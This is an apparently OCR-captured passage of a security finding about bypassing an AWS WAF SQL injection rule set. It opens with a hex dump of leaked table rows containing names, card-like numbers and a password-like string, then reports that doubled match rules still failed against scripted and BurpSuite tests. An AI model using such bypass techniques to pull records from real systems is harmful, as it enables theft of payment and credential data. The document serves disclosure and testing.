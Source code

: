 	0x0980:  3e30 3c2f 7464 3e3c 2f74 723e 3c74 723e  >0</td></tr><tr>
	0x0990:  3c74 643e 3130 333c 2f74 643e 3c74 643e  <td>103</td><td>
	0x09a0:  4a61 6e65 3c2f 7464 3e3c 7464 3e50 6c61  Jane</td><td>Pla
	0x09b0:  6e65 3c2f 7464 3e3c 7464 3e31 3233 3435  ne</td><td>12345
	0x09c0:  3637 3839 3c2f 7464 3e3c 7464 3e4d 433c  6789</td><td>MC<
	0x09d0:  2f74 643e 3c74 643e 266e 6273 703b 3c2f  /td><td>&nbsp;</
	0x09e0:  7464 3e3c 7464 3e30 3c2f 7464 3e3c 2f74  td><td>0</td></t
	0x09f0:  723e 3c74 723e 3c74 643e 3130 333c 2f74  r><tr><td>103</t
	0x0a00:  643e 3c74 643e 4a61 6e65 3c2f 7464 3e3c  d><td>Jane</td><
	0x0a10:  7464 3e50 6c61 6e65 3c2f 7464 3e3c 7464  td>Plane</td><td
	0x0a20:  3e33 3333 3439 3837 3033 3333 333c 2f74  >333498703333</t
	0x0a30:  643e 3c74 643e 414d 4558 3c2f 7464 3e3c  d><td>AMEX</td><
	0x0a40:  7464 3e26 6e62 7370 3b3c 2f74 643e 3c74  td>&nbsp;</td><t
	0x0a50:  643e 303c 2f74 643e 3c2f 7472 3e3c 7472  d>0</td></tr><tr
	0x0a60:  3e3c 7464 3e31 3033 3132 3c2f 7464 3e3c  ><td>10312</td><
	0x0a70:  7464 3e4a 6f6c 6c79 3c2f 7464 3e3c 7464  td>Jolly</td><td
	0x0a80:  3e48 6572 7368 6579 3c2f 7464 3e3c 7464  >Hershey</td><td
	0x0a90:  3e31 3736 3839 3637 3839 3c2f 7464 3e3c  >176896789</td><
	0x0aa0:  7464 3e4d 433c 2f74 643e 3c74 643e 266e  td>MC</td><td>&n
	0x0ab0:  6273 703b 3c2f 7464 3e3c 7464 3e30 3c2f  bsp;</td><td>0</
	0x0ac0:  7464 3e3c 2f74 723e 3c74 723e 3c74 643e  td></tr><tr><td>
	0x0ad0:  3130 3331 323c 2f74 643e 3c74 643e 4a6f  10312</td><td>Jo
	0x0ae0:  6c6c 793c 2f74 643e 3c74 643e 4865 7273  lly</td><td>Hers
	0x0af0:  6865 793c 2f74 643e 3c74 643e 3333 3333  hey</td><td>3333
	0x0b00:  3030 3030 3333 3333 3c2f 7464 3e3c 7464  00003333</td><td
	0x0b10:  3e41 4d45 583c 2f74 643e 3c74 643e 266e  >AMEX</td><td>&n
	0x0b20:  6273 703b 3c2f 7464 3e3c 7464 3e30 3c2f  bsp;</td><td>0</
	0x0b30:  7464 3e3c 2f74 723e 3c74 723e 3c74 643e  td></tr><tr><td>
	0x0b40:  3130 3332 333c 2f74 643e 3c74 643e 4772  10323</td><td>Gr
	0x0b50:  756d 7079 3c2f 7464 3e3c 7464 3e79 6f75  umpy</td><td>you
	0x0b60:  6172 6574 6865 7765 616b 6573 746c 696e  aretheweakestlin
	0x0b70:  6b3c 2f74 643e 3c74 643e 3637 3338 3334  k</td><td>673834
	0x0b80:  3438 393c 2f74 643e 3c74 643e 4d43 3c2f  489</td><td>MC</
	0x0b90:  7464                                     td

Further, in an attempt to mitigate the bypass, a double SQL injection match rule was manually created from the included wafrSQLiSet:

When a request does match at least one of the filters in the SQL injection match condition waf-tsting-detect-sqli

AND

When a request does match at least one of the filters in the SQL injection match condition waf-tsting-detect-sqli

Manually created double rules were also tried with a second (non-repeated) SQL injection match condtion with the 2 xforms mentioned applied to the Body

However, in both cases the bypass is still successful using both the automated scripts and BurpSuite to remove encoding.

